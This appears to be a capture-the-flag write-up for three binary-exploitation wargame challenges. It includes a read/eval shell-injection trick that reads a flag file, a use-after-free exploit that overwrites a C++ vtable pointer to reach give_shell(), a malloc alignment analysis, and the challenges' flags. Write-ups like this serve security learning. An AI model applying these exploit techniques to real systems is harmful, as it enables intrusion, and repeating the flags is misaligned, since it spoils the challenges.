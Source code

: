 Solution: You are logged in under a different shell (Dash) than usual...wonder
why? Well, turns out we want to use some features of Bash to solve this
problem.

```bash
~/cmd2 "read -p 'hola?' yn; eval \$yn"
hola?/bin/cat /home/cmd2/flag
```

# uaf

key: `yay_f1ag_aft3r_pwning`

```
python -c "print 'h\x15@\x00\x00\x00\x00\x00' * 3" | head -c 24 > uaf_ptr 
./uaf 24 uaf_ptr

# Then select
 - 1 
 - 2
 - 2
 - 3
```



As the name suggest, we are going to exploit a use after free vulnerability.
The source code suggests that we need to free the man and woman objects and
then exploit their vtables. Vtables are how virtual functions are implemented
in C++; they record at runtime where the introduce() and give_shell() functions
reside.  Our approach is to free the man object and put a pointer to
give\_shell() entry in the vtable.  Importantly, vtables are stored per class
(not per object) so removing the man object does not remove the vtable.

Frustratingly, the behavior on our local machines did not match the behavior on
remote machine in two important ways. First, the size of the man object was 48
bytes locally, but only 24 bytes on the remote server. Second, the allocator
locally did not want to reuse memory while the remote allocated did
immediately. This second issue forced us to waste time on a technique to write
a lot of repeated data to the heap until memory was reused. 

```
import struct
struct.pack('<Q', 0x000000401570-8)
```


#memcpy

key: `1_w4nn4_br34K_th3_m3m0ry_4lignm3nt`

Solution: We need to figure out how to set the allocation sizes to keep the
program from crashing. A quick GDB session tells us the program is crashing
when it executes line 34 of the source code: `movntps %%xmm0, (%1)`. If we look
at the details of this instruction, we see that it requires 16-byte alignment.
Thus, we need to make sure malloc is always giving us memory aligned on 16
bytes, but malloc only guarantees an 8-byte alignment (defined in the C spec
"largest native word size). Further, we have to content with the malloc head
(8 bytes). 
